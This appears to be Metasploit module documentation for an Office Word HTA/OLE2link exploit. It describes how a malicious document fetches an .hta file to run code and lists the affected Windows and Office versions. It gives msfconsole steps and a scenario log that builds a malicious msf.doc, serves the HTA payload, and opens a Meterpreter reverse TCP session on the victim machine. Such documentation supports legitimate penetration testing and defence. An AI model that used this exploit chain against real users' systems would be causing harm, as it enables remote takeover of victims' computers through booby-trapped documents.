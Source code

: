 ## Vulnerable Application

Microsoft Office is an office suite of applications, servers, and services developed by Microsoft.
Microsoft Office contains Microsoft Word, Microsoft Excel, Microsoft PowerPoint and so on.
They can support OLE data integration and Visual Basic for Application scripting language.

FireEye detected malicious Microsoft Office RTF documents that leverage a previously undisclosed vulnerability.
This vulnerability allows a malicious actor to execute a Visual Basic script when the user opens a document containing an embedded exploit.
FireEye has observed several Office documents exploiting the vulnerability that download and execute malware payloads from different well-known malware families.

The attack involves a threat actor emailing a Microsoft Word document to a targeted user with an embedded OLE2link object.
When the user opens the document, winword.exe issues a HTTP request to a remote server to retrieve a malicious .hta file, which appears as a fake RTF file.
The Microsoft HTA application loads and executes the malicious script. In both observed documents the malicious script terminated the winword.exe process,
downloaded additional payload(s), and loaded a decoy document for the user to see. The original winword.exe process is terminated in order to hide a
user prompt generated by the OLE2link.

- Windows Vista Service Pack 2
- Windows Vista x64 Edition Service Pack 2
- Windows 7 for 32-bit Systems Service Pack 1
- Windows 7 for x64-based Systems Service Pack 1
- Windows Server 2008 for 32-bit Systems Service Pack 2
- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2
- Windows Server 2008 for Itanium-Based Systems Service Pack 2
- Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2013 Service Pack 1 (32-bit editions)
- Microsoft Office 2013 Service Pack 1 (64-bit editions)
- Microsoft Office 2010 Service Pack 2 (32-bit editions)
- Microsoft Office 2010 Service Pack 2 (64-bit editions)
- Microsoft Office 2016 (32-bit edition)
- Microsoft Office 2016 (64-bit edition)

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/fileformat/office_word_hta```
3. Do: ```set payload [PAYLOAD NAME]```
3. Do: ```exploit```

## Scenarios

```
msf > use exploit/windows/fileformat/office_word_hta
msf exploit(office_word_hta) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(office_word_hta) > set lhost 192.168.146.1
lhost => 192.168.146.1
msf exploit(office_word_hta) > set srvhost 192.168.146.1
srvhost => 192.168.146.1
msf exploit(office_word_hta) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.1:4444
[+] msf.doc stored at /Users/wchen/.msf4/local/msf.doc
[*] Using URL: http://192.168.146.1:8080/default.hta
[*] Server started.
```

After you have the malicious doc file and servers ready, copy the doc file onto the victim machine,
and open it with Microsoft Office Word. You should receive a session:

```
[*] Sending stage (957487 bytes) to 192.168.146.145
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.145:50165) at 2017-04-24 16:00:49 -0500
```
